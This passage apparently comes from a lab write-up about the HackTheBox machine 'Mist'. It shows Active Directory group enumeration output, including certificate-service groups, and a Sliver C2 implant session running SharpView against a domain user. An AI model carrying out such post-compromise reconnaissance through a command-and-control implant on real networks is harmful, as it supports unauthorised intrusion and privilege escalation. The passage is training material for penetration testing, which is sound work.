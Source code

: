 ```

distinguishedname              : CN=Operatives,CN=Users,DC=mist,DC=htb
samaccountname                 : Operatives
member                         : {CN=op_Markus.Roheb,CN=Users,DC=mist,DC=htb, CN=op_Sharon.Mullard,CN=Users,DC=mist,DC=htb}

distinguishedname              : CN=Certificate Managers,CN=Users,DC=mist,DC=htb
samaccountname                 : Certificate Managers

distinguishedname              : CN=Virtualization Services,OU=Services,DC=mist,DC=htb
samaccountname                 : Virtualization Services

distinguishedname              : CN=Certificate Services,CN=Users,DC=mist,DC=htb
samaccountname                 : Certificate Services
member                         : {CN=svc_cabackup,CN=Users,DC=mist,DC=htb, CN=svc_ca,CN=Managed Service Accounts,DC=mist,DC=htb}

distinguishedname              : CN=CA Backup,CN=Users,DC=mist,DC=htb
samaccountname                 : CA Backup
member                         : {CN=Certificate Managers,CN=Users,DC=mist,DC=htb}
```

```
sliver (CAUTIOUS_WEDGE) > sharpview get-domaingroup -MemberIdentity Brandon.Keywarp

[*] sharpview output:
[Get-DomainSearcher] search base: LDAP://DC=MIST,DC=HTB
[Get-DomainSearcher] search base: LDAP://DC=MIST,DC=HTB
[Get-DomainObject] Get-DomainComputer filter string: (&(|(|(samAccountName=Brandon.Keywarp)(name=Brandon.Keywarp)(dnshostname=Brandon.Keywarp))))
[Get-DomainSearcher] search base: LDAP://DC=MIST,DC=HTB
[Get-DomainObject] Get-DomainComputer filter string: (&(|(objectsid=S-1-5-21-1045809509-3006658589-2426055941-513)))
objectsid                      : {S-1-5-21-1045809509-3006658589-2426055941-513}
grouptype                      : GLOBAL_SCOPE, SECURITY
samaccounttype                 : GROUP_OBJECT
objectguid                     : a44a6284-3dc8-4e64-b04a-905a2a777fbb
name                           : Domain Users
distinguishedname              : CN=Domain Users,CN=Users,DC=mist,DC=htb
whencreated                    : 2/15/2024 12:32:23 PM
whenchanged                    : 2/15/2024 12:32:23 PM
samaccountname                 : Domain Users
memberof                       : {CN=Users,CN=Builtin,DC=mist,DC=htb}
cn                             : {Domain Users}
objectclass                    : {top, group}
usnchanged                     : 12350
description                    : All domain users
instancetype                   : 4
usncreated                     : 12348
objectcategory                 : CN=Group,CN=Schema,CN=Configuration,DC=mist,DC=htb
iscriticalsystemobject         : True
dscorepropagationdata          : {2/15/2024 12:32:23 PM, 1/1/1601 12:00:01 AM}
```
